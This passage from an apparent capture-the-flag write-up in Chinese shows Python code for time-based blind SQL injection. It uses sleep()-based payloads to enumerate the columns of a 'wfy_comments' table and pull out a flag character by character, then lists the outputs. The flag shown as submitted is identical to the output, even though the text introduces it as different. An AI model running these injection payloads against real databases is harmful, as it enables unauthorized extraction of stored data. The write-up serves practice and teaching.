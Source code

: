 ```python
column_name = []
column_num = test_int(
    0, 10, "if((select(count(column_name))from(information_schema.columns)where(table_name='wfy_comments'))={},sleep(1),1)")
for i in range(0, column_num):
    # 查找列i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(column_name))from(information_schema.columns)where(table_name='wfy_comments')limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len == None:
        continue
    # 查找列i的名称
    column_name.append(loop_str(
        1, len+1,
        "if(substr((select(column_name)from(information_schema.columns)where(table_name='wfy_comments')limit\x0C" +
        str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(column_name)
```

输出结果即为列名：

```python
['id', 'text', 'user', 'name', 'display']
```

猜想 `text` 为储存数据的列。先获取列的字段个数：

```python
num = test_int(0, 200, "if((select(count(text))from(wfy.wfy_comments))={},sleep(1),1)")
print(num)
```

得到字段个数为 `12`.

查找 flag：

```python
flag = []
for i in range(num):
    passed = test_pass("if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),1,1)='f',sleep(1),1)")
    if passed:
        len = test_int(0, 100, "if((select(length(user))from(wfy.wfy_comments)limit\x0C"+str(i)+",1)={},sleep(1),1)")
        if len == None:
            continue
        text = loop_str(
            1, len+1, "if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)", log_result=True, log=True)
        print(text)
        flag.append(text)
print(flag)
```

输出结果为

```python
["flag{ju2t_let_me_s1eep_f0r_a_whi1e}"]
```

但是提交的 flag 为

```plain
flag{ju2t_let_me_s1eep_f0r_a_whi1e}
```

由于上述是使用延时盲注，所以脚本判断if是否判真并不稳定，可以通过修改脚本开头的 `REQUEST_TTL` 进行调整。但是耗时长是一个重大问题。

